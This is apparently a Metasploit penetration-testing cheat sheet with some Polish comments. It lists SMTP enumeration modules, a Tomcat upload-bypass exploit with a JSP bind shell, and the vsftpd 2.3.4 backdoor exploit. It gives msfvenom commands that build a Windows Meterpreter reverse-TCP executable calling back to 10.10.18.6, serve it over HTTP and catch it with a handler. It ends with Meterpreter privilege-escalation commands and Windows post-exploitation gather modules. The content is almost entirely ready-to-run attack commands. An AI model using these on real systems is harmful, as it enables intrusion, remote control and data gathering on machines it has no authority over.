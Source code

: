 ## SMTP

```bash
auxiliary/scanner/smtp/smtp_version # SMTP Banner Grabber
auxiliary/scanner/smtp/smtp_enum # SMTP User Enumeration Utility
```

## Apache Tomcat

```bash
exploit/multi/http/tomcat_jsp_upload_bypass
set payload java/jsp_shell_bind_tcp
set shell cmd # dla Windows

msfvenom -p windows/x64/meterpreter_reverse_tcp Lhost=10.10.18.6 Lport=1234 -f exe > payload.exe
python3 -m http.server

use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set Lhost=10.10.18.6
set Lport=1234
exploit -jq
```

## FTP

```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

# Windows Postexploitation

## Meterpreter

```bash
getuid
systinfo
getsystem
show_mount
ps
getprivs
```

## msf>search post/windows/(gather)...

|                                         |                                            |
| --------------------------------------- | ------------------------------------------ |
| Enumerate user privileges               | `post/windows/gather/win_privs`            |
| Enumerate logged on users               | `post/windows/gather/enum_logged_on_users` |
| Enum unattended installation file       | `post/windows/gather/enum_unattend`        |
| VM check                                | `post/windows/gather/checkvm`              |
| Enumerate installed programs            | `post/windows/gather/enum_applications`    |
| Enumerate AVs                           | `post/windows/gather/enum_av_excluded`     |
| Enumerate computers connected to domain | `post/windows/gather/enum_computers`       |
| Enumerate installed patches             | `post/windows/gather/enum_patches`         |
| Enumerate shares                        | `post/windows/gather/enum_shares`          |